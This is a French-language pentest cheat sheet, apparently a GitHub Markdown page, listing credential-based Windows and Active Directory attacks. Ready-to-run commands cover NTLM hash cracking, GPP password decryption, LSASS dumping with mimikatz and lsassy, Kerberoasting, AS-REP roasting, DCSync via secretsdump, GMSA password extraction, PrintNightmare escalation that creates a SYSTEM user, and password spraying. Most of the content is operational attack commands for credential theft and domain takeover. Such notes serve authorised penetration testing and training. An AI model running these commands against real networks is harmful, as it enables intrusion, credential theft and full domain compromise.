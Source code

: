# Attaques Windows avec identifiants

## 1. Obtention d'identifiants / hash NTLM

### 1.1. Cracking

> Prérequis : Hash Net-NTLMv2 obtenu au préalable
>
> Objectif : Obtenir le mot de passe de l'utilisateur

```bash
$ john --format=netntlmv2 --wordlist="/usr/share/wordlists/rockyou.txt" hash.txt

$ hashcat -m 5600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```



### 1.2. MS14-025 (GPO)

> **SYSVOL** est un partage réseau regroupant entre autre les éléments qui doivent être accessibles pour l’ensemble des ordinateurs du domaine (e.g. scripts de connexion, GPO, …). Il se situe sur les controleurs de domaine.
>
> Prérequis : Accès à un partage SYSVOL sur la machine <IP> (compte du domaine)
>
> Objectif : Obtenir le mot de passe de l'utilisateur utilisé pour appliquer la GPO (généralement l'administrateur local)

```bash
# Connexion au préalable sur le partage SMB SYSVOL
$ cd \DOMAIN\Policies\{UNE-CLE-GPO}\Machine\Preferences\Groups\
$ cat Groups.xml
$ gpp-decrypt <HASHED_PASSWORD>

# Ou plus facile, utilisation du module gpp_password CME
$ crackmapexec smb <IP> -u <USERNAME> -p <PASSWORD> -d <DOMAIN> -M gpp_password
```

### 1.3 Dump LSASS

> Récupération des hash NTLM des comptes s'étant connectés sur la machine
>
> Prérequis : compte administrateur local d'une machine cliente
>
> Objectifs : récupérer un hash NTLM d'un compte du domaine

```bash
# A distance
$ crackmapexec smb <IP_PARTAGE> -u USERNAME -p PASSWORD -M lsassy 

# Si déjà connecté sur le poste client
C:\> .\mimikatz.exe 
```



## 2. Exploitation avec identifiants / hash NTLM

### 2.1 Exploitation des partages réseau

#### 2.1.1 Listing des partages réseaux SMB

> Prérequis : Identifiants d'un utilisateur / hash NTLM si le partage est sur le DC
>
> Objectifs : lister les partages réseaux SMB présents sur une machine <IP>

```bash
# Sur une machine cliente
$ crackmapexec smb <IP_CLIENT> -u "USERNAME" -p 'PASSWORD' --shares --local-auth

# Sur un contrôleur de domaine
$ crackmapexec smb <IP_DC> -u "USERNAME" -H <HASH_NTLM> --shares
```

- Si utilisation d'un compte local, spécifier l'option --local-auth ;

- CME vient confirmer les identifiants utilisés et indique la mention "Pwn3d!" si c'est un compte ayant les droits d'un **administrateur local**. Si c'est un compte du domaine, il l'indique en vert.

  

#### 2.1.2 Accès aux partages réseaux SMB

> Prérequis : Identifiants d'un utilisateur / hash NTLM si le partage est sur le DC
>
> Objectifs : accéder et lire les fichiers présents sur les partages réseau SMB

```bash
# Sur une machine client
$ impacket-smbclient 'USERNAME:PASSWORD@<IP_CLIENT>'

# Sur un contrôleur de domaine
$ impacket-smbclient -hashes :<HASH_NTLM> DOMAIN/USERNAME@<IP_DC>     
```

Voir [smbclient](./smbclient.md) pour consulter les actions réalisables



### 2.2 Attaques liées au compte de service

#### 2.2.1 Kerberoasting

> Prérequis : Compte utilisateur avec le droit d'utiliser le service
>
> Objectif : Récupérer un TGS (ticket signé avec le mot de passe du compte de service) pour le cracker et obtenir le mot de passe du compte de service

```bash
$ impacket-GetUserSPNs -request -dc-ip <IP_DC> 'DOMAIN/USERNAME:PASSWORD'
```

Si l'erreur `[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` survient, se mettre à l'heure en synchronisation avec le DC :

```bash
$ sudo ntpdate <IP_DC>
```



#### 2.2.2 ASREP Roasting (WIP)

> Se base sur la possibilité de demander un ticket de service en tant qu'un utilisateur du domaine sans connaître son mot de passe.
>
> Prérequis : 
>
> - Connaissance à minima d'une liste d'utilisateurs valides dont on veut un ticket / paramétrage de l'utilisateur de domaine "pas de pré-authentification Kerberos" 
> - Identifiants d'un utilisateur du domaine
>
> Objectif : Récupérer un TGT pour le cracker et obtenir le mot de passe du compte de service
>

```bash
# Avec ID, requête sur l'annuaire et vérifie si la pré-auth Kerberos est activée pour chaque compte du domaine
$ impacket-GetUserSPNs -request -dc-ip <IP_DC> '<DOMAINE.DOMAINE>/USER:<MOT_DE_PASSE>'

# Sans ID, bruteforce et demande pour chaque utilisateur dans la liste fournie s'il peut récupérer son TGT
$ impacket-GetNPUsers 'DOMAIN/USERNAME' <USER_LIST> -no-pass
```



#### 2.2.3 DCSync

> Se base sur le fait qu'un compte de service ait les droits de répliquer les modifications d'un annuaire (i.e. synchronisation de tout l'annuaire)
>
> Prérequis : Compte de service avec les droits DCSync
>
> Objectif (court) : Devenir administrateur du domaine (Administrateur ou KRBTGT)
>
> Objectif (long) : Répliquer l'annuaire pour ensuite lire les modifications du fichier NTDS.dit et donc récupérer tous les hash des utilisateurs du domaine, dont l'administrateur du domaine

```bash
$ impacket-secretsdump 'DOMAINE/USERNAME:PASSWORD@<IP_DC>' -just-dc-user krbtgt
```



#### 2.2.4 Exploitation des comptes GMSA

> Dans le cas où on possède les droits de lire les mots de passe d'un compte GMSA (Group Managed Service Accounts)
>
> Prérequis : un compte avec les droits de lecture GMSA
>
> Objectifs : récupérer le hash NTLM du compte GMSA

```powershell
# Besoin d'un powershell
# Liste des comptes GMSA
PS C:\> Get-ADServiceAccount -Filter *
# Récupérer le SamAccountName
PS C:\> $gmsa =  Get-ADServiceAccount -Identity '<SamAccountName>' -Properties 'msDS-ManagedPassword'
PS C:\> $blob = $gmsa.'msDS-ManagedPassword'
# Récupération du mot de passe chiffré (secure)
PS C:\> $mp = ConvertFrom-ADManagedPasswordBlob $blob
# Conversion du mot de passe en hash NTLM
PS C:\> $hash1 =  ConvertTo-NTHash -Password $mp.SecureCurrentPassword
```



### 2.3 Autre

#### 2.3.3 Print-Nightmare

> Se base sur le fait qu'un utilisateur à moindre privilèges peut ajouter une imprimante et demander d'installer un driver pour cette dernière. C'est le service de spool qui va télécharger et charger ce driver. Ce service est lancé par SYSTEM. Il chargera donc le driver (une dll malicieuse pour RCE) avec ces droits, permettant une élévation de privilèges.
>
> Prérequis : un compte utilisateur sur une machine avec un service de spool (spoolsv) actif
>
> Objectif : Devenir administrateur local (SYSTEM)
>
> Ressource : https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html / https://www.thedutchhacker.com/how-to-exploit-the-printnightmare-cve-2021-34527/

```powershell
&> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
&> import-module .\CVE-2021-1675.ps1
&> Invoke-Nightmare -NewUser "slash" -NewPassword "slash" # création d'un nouvel utilisateur
# Hôte - connexion avec le nouveau compte ayant les droits SYSTEM
$ evil-winrm -i 10.10.11.106 -u slash -p slash
```



#### 2.3.4 Password spraying

> Réutilisation de mots de passe valides
>
> Prérequis : un mot de passe valide avec une liste d'utilisateurs valides et susceptibles d'utiliser également ce mot de passe
>
> Objectif : obtenir un nouveau compte 

```bash
# Password spraying via le protocole Kerberos (pré-authentification)
$ kerbrute bruteuser --dc <NOM_DC> -d <DOMAIN.COM> <USERS_VALIDES_WORDLIST> <MDP_VALIDE>  
```

